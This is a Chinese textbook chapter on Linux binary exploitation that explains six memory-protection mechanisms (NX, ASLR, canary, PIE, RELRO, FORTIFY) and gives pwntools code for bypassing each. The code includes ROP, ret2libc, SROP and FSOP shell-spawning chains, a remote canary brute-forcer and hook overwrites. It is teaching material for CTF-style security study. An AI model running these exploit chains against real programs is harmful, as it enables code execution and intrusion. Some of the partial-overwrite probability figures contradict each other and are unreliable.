



## 16.6 防护机制与绕过策略

现代操作系统和编译器为二进制程序部署了多层安全防护机制，从栈溢出检测到地址随机化，从内存不可执行到控制流完整性。理解每种机制的工作原理、保护边界和已知弱点，是 PWN 技术从入门走向精通的核心分水岭。本节系统剖析六大主流防护机制，并针对每种机制给出经过实战验证的绕过方法。

---

### 16.6.1 防护机制全景

在深入每种机制之前，先建立全局视野。下表列出 Linux 用户态程序最常见的防护机制及其在攻击链中的拦截点：

| 防护机制 | 编译/配置选项 | 保护目标 | 拦截的攻击类型 | 首次引入 |
|---------|-------------|---------|--------------|---------|
| NX (DEP) | `-z noexecstack` | 内存页执行权限 | shellcode 注入执行 | Linux 2.6 / XP SP2 |
| ASLR | `/proc/sys/kernel/randomize_va_space` | 堆/栈/mmap/libc 基址 | 硬编码地址利用 | Linux 2.6.12 |
| Stack Canary | `-fstack-protector[-strong]` | 栈帧返回地址 | 栈缓冲区溢出 | GCC 4.1 |
| PIE | `-pie -fPIE` | 代码段 (.text) 基址 | ROP gadgets 固定地址 | GCC 4.5 |
| RELRO | `-z relro` / `-z relro -z now` | GOT / .fini_array 等 | GOT 覆写劫持 | GNU ld 2.15 |
| FORTIFY_SOURCE | `-D_FORTIFY_SOURCE=2` | 危险 libc 函数调用 | strcpy/gets 等溢出 | GCC 4.0 |
| CFI | `-fsanitize=cfi` / Intel CET | 间接调用/跳转目标 | 虚表劫持/JOP | Clang 3.3 / Intel CET |

使用 `checksec` 可以快速查看目标二进制开启了哪些防护：

```bash
$ checksec --file=./vuln
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  FORTIFIED
```

下图展示了各防护机制在攻击链中的位置关系：



---

### 16.6.2 NX (DEP) 机制与绕过

#### NX 的工作原理

NX（No-eXecute）即数据执行保护（DEP），由 CPU 的硬件特性支持（x86-64 的 NX bit，ARM 的 XN bit）。操作系统在页表中标记内存页的权限位，将栈、堆等数据区域标记为不可执行（RW），将代码段标记为可读可执行（RX）。当 CPU 试图从不可执行页面取指令时，触发段错误（SIGSEGV）。

```bash
# 查看进程内存映射中的执行权限
$ cat /proc/$(pidof vuln)/maps
555555554000-555555555000 r-xp 00000000 08:01 1234  ./vuln    # RX - 可执行
555555755000-555555756000 r--p 00001000 08:01 1234  ./vuln    # RO - 只读
555555756000-555555757000 rw-p 00002000 08:01 1234  ./vuln    # RW - 不可执行
7ffff7dc3000-7ffff7f89000 r-xp 00000000 08:01 5678  libc.so  # RX
7ffffffde000-7fffffffe000 rw-p 00000000 00:00 0     [stack]   # RW - 不可执行
```

#### 绕过方法一：ROP（Return-Oriented Programming）

ROP 的核心思想是：既然不能执行注入的代码，那就复用程序中已有的代码片段（gadgets）。每个 gadget 以 `ret` 指令结尾，通过精心构造栈上的返回地址链，将多个 gadget 串联起来完成任意计算。

**gadget 寻找工具：**

```bash
# ROPgadget - 最常用的gadget搜索工具
$ ROPgadget --binary ./vuln --only "pop|ret"
Gadgets information
============================================================
0x00000000004011f4 : pop rbp ; ret
0x0000000000401293 : pop rdi ; ret
0x0000000000401291 : pop rsi ; pop r15 ; ret

# ropper - 另一个优秀的工具
$ ropper -f ./vuln --search "pop rdi"

# pwntools 内置搜索
$ ROPgadget --binary ./vuln --ropchain  # 自动生成调用system("/bin/sh")的chain
```

**最基础的 ROP chain 示例：**

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

# 找到 gadgets
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]  # 用于栈对齐

# 构造ROP chain: system("/bin/sh")
payload  = b'A' * offset
payload += p64(ret)          # 栈对齐（16字节对齐要求）
payload += p64(pop_rdi)      # pop rdi; ret
payload += p64(next(elf.search(b'/bin/sh\x00')))  # rdi = "/bin/sh"
payload += p64(elf.sym['system'])                   # 调用 system
```

#### 绕过方法二：ret2libc

ret2libc 是 ROP 的特例，直接调用 libc 中的函数（如 `system`、`execve`）而非拼接 gadgets：

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 前提：已知 libc 基址（通过信息泄露获得）
libc_base = leaked_addr - libc.sym['__libc_start_main']
system = libc_base + libc.sym['system']
bin_sh  = libc_base + next(libc.search(b'/bin/sh\x00'))

payload  = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)
```

#### 绕过方法三：mprotect 修改页权限

如果程序中有 `mprotect` 函数可用，可以将特定内存区域标记为可执行，然后跳转到该区域执行 shellcode：

```python
from pwn import *

# 将栈所在的某个页面改为 RWX
# mprotect(addr & ~0xfff, 0x1000, 7)  # 7 = PROT_READ|PROT_WRITE|PROT_EXEC
rop  = b'A' * offset
rop += p64(pop_rdi) + p64(stack_page & ~0xfff)
rop += p64(pop_rsi) + p64(0x1000)
rop += p64(pop_rdx) + p64(7)
rop += p64(elf.sym['mprotect'])
rop += p64(jmp_rsp)        # 跳转到栈上执行shellcode
rop += shellcode           # 此时栈已变为可执行
```

#### 绕过方法四：SROP（Sigreturn-Oriented Programming）

SROP 利用 Linux 信号处理机制中的 `sigreturn` 系统调用。当内核执行 `sigreturn` 时，会从栈上恢复整个寄存器上下文（`sigcontext` 结构体），攻击者可以伪造这个结构体来控制所有寄存器：

```python
from pwn import *

frame = SigreturnFrame()
frame.rax = 59              # sys_execve
frame.rdi = bin_sh_addr     # "/bin/sh"
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret     # syscall; ret 的地址

payload  = b'A' * offset
payload += p64(elf.sym['alarm'])   # 设置 rax = 0xf (15 = alarm)
payload += p64(syscall_ret)        # 执行 syscall -> sigreturn
payload += bytes(frame)            # 内核恢复寄存器 -> execve("/bin/sh")
```

---

### 16.6.3 ASLR 机制与绕过

#### ASLR 的工作原理

ASLR（Address Space Layout Randomization）在进程启动时随机化以下内存区域的基址：

| 随机化区域 | 64位随机化位数 | 32位随机化位数 | 每次加载变化 |
|-----------|--------------|--------------|------------|
| 栈基址 | 28 位 | 19 位 | 每次进程启动 |
| mmap 区域（libc 等） | 28 位 | 8-16 位 | 每次进程启动 |
| 堆基址 | 28 位 | 13 位 | 每次进程启动 |
| PIE 基址 | 28 位 | 8-16 位 | 每次进程启动 |

注意：页内偏移（低 12 位）不会被随机化，因为内存页大小固定为 4KB（0x1000），页对齐要求使得低 12 位始终为 0。这是部分覆写绕过的关键。

```bash
# 查看/设置ASLR状态
$ cat /proc/sys/kernel/randomize_va_space
2   # 0=关闭 1=部分(栈/mmap) 2=完全(默认)

# 临时关闭ASLR（CTF调试时常用）
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# 验证随机化效果
$ for i in $(seq 1 5); do ./vuln & cat /proc/$!/maps | grep libc | head -1; kill $!; done
7f1a2b3c4000-...  # 每次不同
7f9e8d7c6000-...
7f2c4a8b3000-...
```

#### 绕过方法一：信息泄露（最常用）

信息泄露是绕过 ASLR 的首选方法。常见的泄露源包括：

**格式化字符串漏洞泄露：**

```python
# 泄露栈上的libc地址
# %lx 会打印栈上的值，其中包含libc返回地址
from pwn import *

p = process('./vuln')
p.sendline('%p.%p.%p.%p.%p.%p.%p.%p')
leaked = p.recvline()
# 解析出 __libc_start_main+xxx 的地址
libc_start_main_ret = int(leaked.split(b'.')[5], 16)
libc_base = libc_start_main_ret - libc.sym['__libc_start_main'] - 243
```

**puts/printf 泄露 GOT 表项：**

```python
# 利用 puts@plt 打印 GOT 中已解析的libc地址
payload  = b'A' * offset
payload += p64(pop_rdi)         # pop rdi; ret
payload += p64(elf.got['puts']) # puts 的 GOT 表项地址
payload += p64(elf.plt['puts']) # 调用 puts(puts@got)
payload += p64(elf.sym['main']) # 返回main，进行第二轮利用

p.send(payload)
puts_addr = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
libc_base = puts_addr - libc.sym['puts']
```

**uninitialized memory read（未初始化内存读取）：**

某些程序在栈上或堆上留有上一次调用残留的指针，如果存在信息泄露，可以直接读取这些残留值。

#### 绕过方法二：部分覆写（Partial Overwrite）

部分覆写利用 ASLR 不随机化低 12 位的特性，只覆写地址的最低 1-3 字节，高字节保持不变：

```python
# 场景：栈上有一个指向libc的指针，我们可以溢出覆盖它
# 原始值: 0x7f1234567890 (指向 __libc_start_main+243)
# 目标:   0x7f1234567abc (指向 system)
# 差异仅在低16位: 0x7890 -> 0x7abc

from pwn import *

# 仅覆写低2字节（16位），成功率 = 1/16 = 6.25%
# 低12位确定(0xabc)，只需猜第13-16位（4位 = 16种可能）
payload = b'A' * offset
payload += p16(0x7abc)  # 仅写2字节

# 仅覆写低3字节（24位），成功率 = 1/256 = 0.39%
# 低12位确定(0xabc)，需猜第13-24位（12位 = 4096种可能）
payload = b'A' * offset
payload += p16(0x7abc) + p8(0x34)  # 写3字节
```

部分覆写的成功率取决于覆写的字节数：

| 覆写字节数 | 随机化位数 | 成功率 | 适用场景 |
|-----------|-----------|-------|---------|
| 1 字节 | 4 位 | 1/16 = 6.25% | 目标在同一 256 字节对齐块内 |
| 2 字节 | 4 位（低 12 位固定） | 1/16 = 6.25% | 最常用的 partial overwrite |
| 3 字节 | 12 位 | 1/4096 = 0.024% | 需要更大偏移，通常不可行 |

#### 绕过方法三：暴力破解（32 位程序）

32 位程序的 ASLR 空间远小于 64 位：

```python
# 32位程序 libc ASLR: 仅8-16位随机化
# 64位程序 libc ASLR: 28位随机化（暴力破解不可行）

import subprocess

for attempt in range(10000):
    try:
        p = subprocess.Popen('./vuln', stdin=subprocess.PIPE, stdout=subprocess.PIPE)
        # 构造使用猜测地址的 payload
        payload = craft_payload(guessed_libc_base)
        p.stdin.write(payload + b'\n')
        output = p.stdout.read(4)
        if b'$' in output or b'#' in output:
            print(f'Shell after {attempt} attempts!')
            # 将进程的stdin/stdout连接到终端
            break
    except:
        continue
```

#### 绕过方法四：ret2PLT（不依赖 libc 地址）

PLT（Procedure Linkage Table）的地址在非 PIE 程序中是固定的，不需要知道 libc 基址：

```python
# 非PIE程序: PLT地址固定，不受ASLR影响
# 可以直接调用 puts@plt / printf@plt 等

payload  = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])  # GOT项中存储puts的真实地址
payload += p64(elf.plt['puts'])  # 调用 puts@plt（固定地址）
payload += p64(elf.sym['main'])  # 返回main继续利用
```

#### 绕过方法五：利用 /proc/self/mem 与环境变量

```bash
# 在某些配置下，/proc/self/maps 可被读取
# 如果目标进程有文件读取漏洞，可以直接读取自身内存映射
cat /proc/self/maps | grep libc
# 7f1234567000-7f123472d000 r-xp ... /lib/x86_64-linux-gnu/libc.so.6
```

---

### 16.6.4 Stack Canary 机制与绕过

#### Canary 的工作原理

编译器在函数序言（prologue）中插入 canary 值，在函数尾声（epilogue）中检查其是否被修改：

```asm
; 函数序言（x86-64）
push   rbp
mov    rbp, rsp
sub    rsp, 0x50
mov    rax, qword ptr fs:[0x28]   ; 从 TLS 读取 canary
mov    qword ptr [rbp-8], rax      ; 放到栈上（返回地址下方）

; ... 函数体 ...

; 函数尾声
mov    rax, qword ptr [rbp-8]      ; 读回栈上的 canary
xor    rax, qword ptr fs:[0x28]    ; 与原始 canary 比较
je     .ok
call   __stack_chk_fail            ; 不匹配 -> 报错退出
.ok:
leave
ret
```

Canary 的结构特点：
- 64 位系统：8 字节，最低字节固定为 `\x00`（字符串终止符，防止 `puts` 等函数泄露 canary）
- 存储位置：`fs:0x28`（TLS 区域），每个线程独立
- 子进程 fork 后继承父进程的 canary 值

```bash
# 查看 canary 值（调试时）
$ gdb -q ./vuln
gdb$ p/x *(long*)((char*)__stack_chk_guard)
0x123456789abcdef00  # 注意末尾的 00
```

#### 绕过方法一：泄露 Canary

**通过格式化字符串泄露：**

```python
# 如果存在格式化字符串漏洞，且canary在栈上可达
# 偏移量需要通过调试确定

from pwn import *

p = process('./vuln')
# 逐个试探栈偏移
for i in range(1, 50):
    p = process('./vuln')
    p.sendline(f'%{i}$p'.encode())
    val = p.recvline().strip()
    print(f'offset {i}: {val}')
    p.close()

# 找到包含 canary 的偏移（通常末尾为 0x00 的值）
# 例如偏移 11 的值为 0x56a7b8c12d4e00
canary = 0x56a7b8c12d4e00
```

**通过部分溢出泄露：**

```python
# 如果可以逐字节溢出（如 read 的长度可控制）
# 利用 canary 最低字节为 \x00 的特性

canary = b'\x00'  # 最低字节已知
for byte_pos in range(1, 8):
    for guess in range(256):
        p = process('./vuln')
        payload = b'A' * 64
        payload += canary + bytes([guess])
        p.send(payload)
        response = p.recv(timeout=1)
        if b'stack smashing' not in response and p.poll() is None:
            canary += bytes([guess])
            p.close()
            break
        p.close()
    else:
        print(f"Failed at byte {byte_pos}")
        break

print(f"Canary: {u64(canary):#018x}")
```

#### 绕过方法二：Fork 型服务暴力破解

fork 型服务器（如 xinetd 托管的 CTF 题目）每次 fork 子进程处理连接，子进程继承父进程的 canary。因此可以通过逐字节暴力破解：

```python
from pwn import *
import sys

def try_canary(canary_bytes, byte_guess):
    """尝试下一个字节"""
    payload = b'A' * 64 + canary_bytes + bytes([byte_guess])
    
    for _ in range(3):  # 重试3次避免误判
        p = remote('challenge.ctf.com', 1337)
        p.sendafter(b'> ', payload)
        try:
            response = p.recv(timeout=2)
            p.close()
            if b'stack smashing' not in response:
                return True
        except:
            pass
        p.close()
    return False

# 逐字节爆破
canary = b'\x00'
for pos in range(1, 8):
    found = False
    for guess in range(256):
        if try_canary(canary, guess):
            canary += bytes([guess])
            print(f"Byte {pos}: {guess:#04x} -> {canary.hex()}")
            found = True
            break
    if not found:
        print("爆破失败")
        sys.exit(1)

print(f"完整 Canary: {u64(canary):#018x}")
# 总尝试次数: 7 * 256 = 1792 次（最坏情况）
```

#### 绕过方法三：覆写异常处理 / C++ 虚表

不触碰 canary 保护的返回地址，而是覆写栈上其他关键数据：

```python
# C++ 程序中，异常处理链、虚表指针不受 canary 保护
# 覆写 __cxa_throw 或 catch handler 的指针

# Stack Clash: 利用 alloca() 或大局部变量
# 跳过 canary 所在的页面
# 需要能够分配跨越 guard page 的大块栈内存
```

#### 绕过方法四：利用 SSP 泄露（Stack Smashing Detected）

当 `__stack_chk_fail` 被触发时，它会打印包含函数名的错误信息：

```text
*** stack smashing detected ***: ./vuln terminated
```

虽然这不直接帮助利用，但可以确认溢出的存在和偏移量。在某些情况下，可以通过多次触发 `__stack_chk_fail` 耗尽进程资源，或者结合信息泄露获得 canary。

#### 绕过方法五：通过 `/proc/[pid]/mem` 跨进程读取

如果同机上有另一个可利用的进程（如 SSRF 或文件读取漏洞），可以直接读取目标进程的 TLS 区域获取 canary：

```python
import struct

def read_canary(pid):
    """读取指定进程的 canary 值"""
    with open(f'/proc/{pid}/maps', 'r') as f:
        for line in f:
            if '[stack]' in line:
                # TLS 通常在栈附近
                stack_start = int(line.split('-')[0], 16)
    
    # fs:0x28 存储 canary，但需要知道 TLS base
    # 更实用的方法：从栈上的残留 canary 副本读取
    with open(f'/proc/{pid}/mem', 'rb') as f:
        # 读取栈底部附近，搜索 canary 模式
        f.seek(stack_start)
        data = f.read(0x1000)
```

---

### 16.6.5 PIE 机制与绕过

#### PIE 的工作原理

PIE（Position Independent Executable）使主程序的代码段在每次加载时随机化基址。没有 PIE 时，主程序的 `.text`、`.plt`、`.got` 等段地址是固定的（通常从 `0x400000` 开始）。开启 PIE 后，这些地址与 libc 一样被随机化。

```bash
# 对比 PIE 和非 PIE 程序的地址
$ # 非 PIE
$ for i in 1 2 3; do ./no_pie & grep text /proc/$!/maps; kill $!; done
00400000-00401000 r-xp ...  # 每次都是 0x400000

$ # PIE
$ for i in 1 2 3; do ./pie & grep text /proc/$!/maps; kill $!; done
55a123456000-55a123457000 r-xp ...  # 每次不同
55b987654000-55b987655000 r-xp ...
55c456789000-55c45678a000 r-xp ...
```

#### 绕过方法一：信息泄露 + 计算偏移

泄露程序中任意已知函数的运行时地址，减去其在文件中的偏移，得到 PIE 基址：

```python
from pwn import *

elf = ELF('./vuln_pie')

# 假设通过格式化字符串泄露了某个返回地址
# 例如 main 的返回地址是 __libc_start_main+xxx，但我们需要的是程序内的地址
# 或者直接泄露某个 GOT 项（在 PIE 程序中 GOT 存储的是运行时 libc 地址）

# 泄露程序中某个已知函数的地址
leaked_addr = leak_some_function_addr()
pie_base = leaked_addr - elf.sym['known_function']

# 现在可以计算所有地址
pop_rdi = pie_base + rop.find_gadget(['pop rdi', 'ret'])[0]
plt_puts = pie_base + elf.plt['puts']
got_puts = pie_base + elf.got['puts']
main_addr = pie_base + elf.sym['main']
```

#### 绕过方法二：部分覆写（仅覆写低 12 位）

与 ASLR 类似，PIE 随机化也保留低 12 位。如果溢出恰好能覆盖函数指针或返回地址的最低 1-2 字节，可以跳转到同一程序内的其他函数：

```python
# 场景：栈上存储了某个函数的返回地址
# 原始: 0x555555555234 (指向 vuln_func+0x10)
# 目标: 0x555555555189 (指向 win_func）
# 仅低12位不同: 0x234 vs 0x189

# 覆写低2字节，成功率 = 1/16（因为低12位确定，只需猜4位）
payload = b'A' * offset
payload += p16(0x5189)  # 覆写低2字节，跳转到 win_func
```

#### 绕过方法三：利用非 PIE 函数（静态链接的 libc 启动代码）

某些 PIE 程序静态链接了部分代码，或者程序启动时的 `_start` / `__libc_csu_init` 等辅助函数可能有可利用的 gadgets：

```bash
# 检查程序是否完全 PIE
$ file ./vuln
./vuln: ELF 64-bit LSB pie executable  # PIE
# vs
./vuln: ELF 64-bit LSB shared object   # PIE (另一种表述)
# vs
./vuln: ELF 64-bit LSB executable      # 非 PIE
```

---

### 16.6.6 RELRO 机制与绕过

#### RELRO 的三个级别



| 级别 | 编译选项 | GOT 是否可写 | .fini_array | 延迟绑定 |
|-----|---------|-------------|------------|---------|
| No RELRO | 默认 | 可写 | 可写 | 启用 |
| Partial RELRO | `-z relro` | 可写 | 可写 | 启用 |
| Full RELRO | `-z relro -z now` | 启动后只读 | 只读 | 禁用（立即绑定） |

Full RELRO 的工作原理：程序启动时，动态链接器立即解析所有 GOT 表项（`-z now`），然后调用 `mprotect` 将 `.got.plt` 段标记为只读。此后任何对 GOT 的写入都会触发段错误。

```bash
# 验证 RELRO 状态
$ readelf -l ./vuln | grep GNU_RELRO
  GNU_RELRO      0x00000de8 0x0000000000200de8 ...  # RELRO 段存在

$ readelf -d ./vuln | grep BIND_NOW
  BIND_NOW                       # Full RELRO 标志
```

#### 绕过方法一：覆写 libc 内部 hook 函数（glibc < 2.34）

glibc 2.34 之前，libc 数据段中存在多个 hook 函数指针：

```c
// libc 数据段中的 hook（均可被堆溢出/任意写覆盖）
void *(*__malloc_hook)(size_t, const void *) = NULL;
void (*__free_hook)(void *) = NULL;
void (*__realloc_hook)(void *, size_t, const void *) = NULL;
void (*__memcpy_hook)(void *, const void *, size_t) = NULL;
```

```python
# 利用 __free_hook（最常用）
# 条件：有堆漏洞可以任意写 libc 数据区

from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 计算 hook 地址
malloc_hook = libc_base + libc.sym['__malloc_hook']
free_hook   = libc_base + libc.sym['__free_hook']
realloc_hook = libc_base + libc.sym['__realloc_hook']

# 覆写 __free_hook 为 system
payload  = p64(system_addr)
# ... 通过堆漏洞写入 free_hook 地址 ...

# 之后调用 free("/bin/sh") 就等于调用 system("/bin/sh")
```

**glibc 2.34+ 的变化：** 所有 hook 函数被移除，此方法失效。需要转向 FSOP 或其他技术。

#### 绕过方法二：FSOP（File Stream Oriented Programming）

FSOP 利用 glibc 的 `_IO_FILE` 结构体和 `_IO_list_all` 链表。通过覆写 `_IO_list_all` 指向伪造的 `_IO_FILE` 结构体，在 `exit()` 调用 `_IO_flush_all_lockp` 时触发攻击：

```python
# FSOP 核心：伪造 _IO_FILE 结构体
# 触发条件：程序调用 exit() 或 main 正常返回

from pwn import *

# 构造伪造的 _IO_FILE_plus 结构体
# vtable 指向伪造的虚表，其中 __overflow 指向 system
fake_file  = b'/bin/sh\x00'           # fp->_IO_read_ptr (被 system 的参数)
fake_file += p64(0)                    # padding
fake_file += p64(0)                    # _IO_read_end
fake_file += p64(0)                    # _IO_read_base
fake_file += p64(0)                    # _IO_write_base
fake_file += p64(1)                    # _IO_write_ptr (需 > write_base)
fake_file += p64(0)                    # _IO_write_end
fake_file += p64(0)                    # _IO_buf_base
fake_file += p64(0)                    # _IO_buf_end
fake_file += p64(0) * 4               # _IO_save_base ... _markers
fake_file += p64(0)                    # _chain
fake_file += p64(0)                    # _fileno | _flags2
fake_file += p64(0xffffffffffffffff)  # _old_offset
fake_file += p64(0)                    # _cur_column etc
fake_file += p64(0)                    # _vtable_offset
fake_file += b'\x00' * 19             # _shortbuf
fake_file += p64(fake_vtable_addr)    # 关键：vtable 指针

# 需要针对具体 glibc 版本调整结构体布局
```

现代 FSOP 利用通常需要配合 House of 系列堆利用技术（House of Apple、House of Cat 等），详见堆利用章节。

#### 绕过方法三：覆写 `__exit_funcs`

glibc 在 `exit()` 时会依次调用 `__exit_funcs` 表中的函数。如果可以覆写该表，即可劫持控制流：

```python
# __exit_funcs 地址可通过以下方式获取
# gdb> p/x __exit_funcs
# 或者通过信息泄露计算

# exit_function_list 结构体:
# struct exit_function_list {
#     struct exit_function_list *next;    // 链表下一节点
#     size_t idx;                          // 当前索引
#     struct exit_function fns[32];        // 函数数组
# };
# struct exit_function {
#     long flavor;    // 1=atexit, 2=on_exit, 4=cxa
#     union { ... } func;
# };
```

#### 绕过方法四：覆写 `_dl_fini` 指针

当 main 正常返回时，动态链接器的 `_dl_fini` 负责清理工作。`_dl_fini` 的指针存储在链接器的数据段中，如果可以覆写该指针，可以在程序退出时获得控制流。

#### 绕过方法五：栈上数据劫持（不依赖 GOT）

如果 GOT 和 libc 数据段都无法写入，可以寻找栈上存储的函数指针或返回地址：

```python
# C++ 虚表指针（vptr）存储在对象的前8字节
# 如果有堆上的 UAF 或任意读，可以泄露虚表地址
# 如果有堆上的任意写，可以覆写虚表指针

# 例：C++ 虚表劫持
# 对象内存布局: [vptr][member1][member2]...
# vptr -> vtable -> [func0][func1][func2]...
# 覆写 vptr 指向伪造的 vtable
```

---

### 16.6.7 FORTIFY_SOURCE 机制与绕过

#### FORTIFY_SOURCE 的工作原理

`FORTIFY_SOURCE` 是编译器和 libc 的协作防护。编译器在编译时计算缓冲区大小，替换危险函数为带边界检查的版本：

```c
// 源代码
char buf[64];
strcpy(buf, src);  // 编译器知道 buf 只有 64 字节

// 编译器替换为
__strcpy_chk(buf, src, 64);  // 如果 src 超过 64 字节，直接终止
```

受保护的函数包括：

| 原始函数 | 替代函数 | 检查内容 |
|---------|---------|---------|
| `strcpy` | `__strcpy_chk` | 目标缓冲区大小 |
| `strcat` | `__strcat_chk` | 目标剩余空间 |
| `memcpy` | `__memcpy_chk` | 目标缓冲区大小 |
| `gets` | `__gets_chk` | 缓冲区大小（但根本上无法安全使用） |
| `sprintf` | `__sprintf_chk` | 格式化后的总长度 |
| `read` | `__read_chk` | 缓冲区大小 |

#### FORTIFY_SOURCE 的级别

```bash
# Level 1 (-D_FORTIFY_SOURCE=1): 仅在编译时确定大小时检查
# Level 2 (-D_FORTIFY_SOURCE=2): 对运行时大小也进行检查（更严格）
```

#### 绕过方法

FORTIFY_SOURCE 的保护范围有限，以下情况可以绕过：

1. **动态长度操作**：当编译器无法在编译时确定缓冲区大小时，不进行替换
2. **未受保护的函数**：`scanf("%s", buf)` 等不受 FORTIFY 保护
3. **非标准内存操作**：内联汇编、`__builtin_memcpy` 等
4. **堆溢出**：FORTIFY 主要保护栈缓冲区，堆溢出不受影响
5. **绕过长度限制**：如果 `read` 的长度参数本身可控（如用户输入），可以传入小值避免检查，再结合其他漏洞

---

### 16.6.8 多重防护联合绕过

在真实场景中，程序通常同时开启多种防护。联合绕过的一般策略：



**典型联合绕过流程（Full Protection: Canary + ASLR + PIE + Full RELRO + NX）：**

```python
from pwn import *

context.arch = 'amd64'

# === 第一阶段：信息泄露 ===
# 利用格式化字符串或部分溢出泄露多个值

# 1. 泄露 canary
p.sendline(b'%11$p')
canary = int(p.recvline(), 16)

# 2. 泄露 libc 地址（__libc_start_main 的返回地址）
p.sendline(b'%13$p')
libc_start_main_ret = int(p.recvline(), 16)
libc_base = libc_start_main_ret - libc.sym['__libc_start_main'] - 243

# 3. 泄露 PIE 基址（某个程序内函数地址）
p.sendline(b'%15$p')
main_addr = int(p.recvline(), 16)
pie_base = main_addr - elf.sym['main']

# === 第二阶段：计算所有需要的地址 ===
system   = libc_base + libc.sym['system']
bin_sh   = libc_base + next(libc.search(b'/bin/sh\x00'))
pop_rdi  = pie_base + rop.find_gadget(['pop rdi', 'ret'])[0]
ret      = pie_base + rop.find_gadget(['ret'])[0]

# === 第三阶段：构造最终 payload ===
payload  = b'A' * 64           # 缓冲区填充
payload += p64(canary)          # 正确的 canary
payload += p64(0)               # saved rbp（填充）
payload += p64(ret)             # 栈对齐
payload += p64(pop_rdi)         # pop rdi; ret
payload += p64(bin_sh)          # rdi = "/bin/sh"
payload += p64(system)          # 调用 system

p.send(payload)
p.interactive()
```

---

### 16.6.9 现代防护演进与未来趋势

#### Control Flow Integrity (CFI)

CFI 是下一代控制流防护的核心技术：

| CFI 类型 | 实现方式 | 保护目标 | 开销 |
|---------|---------|---------|-----|
| Forward-Edge CFI | Clang `-fsanitize=cfi` | 间接调用目标 | 1-5% |
| Shadow Stack | Intel CET `/ Intel` | 返回地址完整性 | 硬件加速 |
| kCFI (Kernel CFI) | Linux 6.1+ | 内核间接调用 | ~2% |
| LLVM CFI | `-fsanitize=cfi-icall` | 虚表/函数指针 | 需 LTO |

```bash
# 编译时启用 CFI（Clang）
$ clang -flto -fvisibility=hidden -fsanitize=cfi -o vuln vuln.c

# 运行时检测非法间接调用
$ ./vuln
runtime error: control flow integrity check for type 'int (*)(int)' failed
```

